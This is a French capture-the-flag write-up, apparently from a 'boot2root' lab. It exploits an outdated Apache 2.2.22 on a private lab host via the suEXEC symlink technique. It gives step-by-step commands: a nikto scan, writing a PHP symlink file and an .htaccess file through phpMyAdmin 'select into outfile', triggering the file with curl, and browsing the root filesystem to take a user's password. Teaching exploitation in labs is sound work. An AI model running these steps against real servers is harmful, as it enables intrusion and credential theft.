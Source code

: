 ## BONUS 6
### APACHE

Lorsque nous lancons la commande suivante : 

```
nikto -h https://192.168.1.135
```

Nous pouvons voir sur le retour la ligne suivante :
```
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
```

Essayons donc de trouver des vulnerabilités pour cette version de Apache..
Pour cela allons faire un tour sur le site suivant :

[exploit-db](https://www.exploit-db.com/)

Dans la barre de recherche nous rentrons apache privilege et regardons les exploit disponibles :

[b2r_4](../photos/b2r_4.png)

Nous allons aller sur Apache suEXEC et etudier l'exploit comme c'est le seul disponible en remote.

En bas de l'explication on voit bien que la version est la meme que la notre (Apache 2.2.22), c'est deja bon signe.

La fonctionnalité suEXEC offre aux utilisateurs d'Apache la possibilité d'exécuter des programmes CGI et SSI sous des identifiants différents de l'identifiant du serveur web appelant

On va creer un fichier suexec.php dans /var/www/forum/templates_c avec le code suivant :

```
<?php
	system("ln -sf / test99.php");
	symlink("/", "test99.php");
?>

select '<?php system(\"ln -sf / test99.php\"); symlink(\"/\", \"test99.php\"); ?>' into outfile "/var/www/forum/templates_c/suexec.php"
```

Puis depuis phpmyadmin on va creer un fichier .htaccess avec a l'interieur :

```
Options Indexes FollowSymLinks
select "Options Indexes FollowSymLinks" into outfile "/var/www/forum/templates_c/.htaccess"
```

On execute suexec.php via le browser ou avec curl :

```
curl --insecure https://192.168.1.135/forum/templates_c/suexec.php
```

Ensuite on appelle la page test99.php directement avec le browser

```
https://192.168.1.135/forum/templates_c/test99.php
```

Et finalement nous avons :

[b2r_5](../photos/b2r_5.png)

Il ne nous reste plus qu'a aller dans le /home, recuperer le password de laurie et continuer l'exploit comme dans le writeup1.md pour arriver root !
